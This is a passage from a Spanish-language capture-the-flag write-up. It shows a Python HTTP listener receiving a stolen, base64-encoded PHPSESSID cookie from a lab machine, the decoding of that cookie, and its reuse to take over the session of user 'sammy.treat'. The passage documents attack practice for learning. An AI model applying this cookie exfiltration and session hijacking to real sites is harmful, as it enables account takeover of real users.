 Antes de enviarlo nos pondremos a la escucha con un servidor de `python3`.

```shell
python3 -m http.server 80
```

Ahora si lo enviamos y esperamos unos segundos veremos lo siguiente:

```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.84 - - [28/Sep/2025 04:27:06] "GET /?c=UEhQU0VTU0lEPTFoYjZqNnFnNGQwaTFnM2o0bXI5ZXE0amxm HTTP/1.1" 200 -
```

Vemos que ha funcionado, con esto lo que hemos echo es enviarnos a nuestro servidor las `cookies` de dicho usuario que haya abierto el archivo, por lo que vamos a probarlas de esta forma:

```shell
echo 'UEhQU0VTU0lEPTFoYjZqNnFnNGQwaTFnM2o0bXI5ZXE0amxm' | base64 -d
```

Info:

```
PHPSESSID=1hb6j6qg4d0i1g3j4mr9eq4jlf
```

Si nos vamos a nuestro navegador e intercambiamos la `cookie` actual que tenemos por la que nos han proporcionado en esta parte...

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-28 103015.png" alt=""><figcaption></figcaption></figure>

Y recargamos la pagina, veremos que somos el usuario `sammy.treat`:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-28 103042.png" alt=""><figcaption></figcaption></figure>
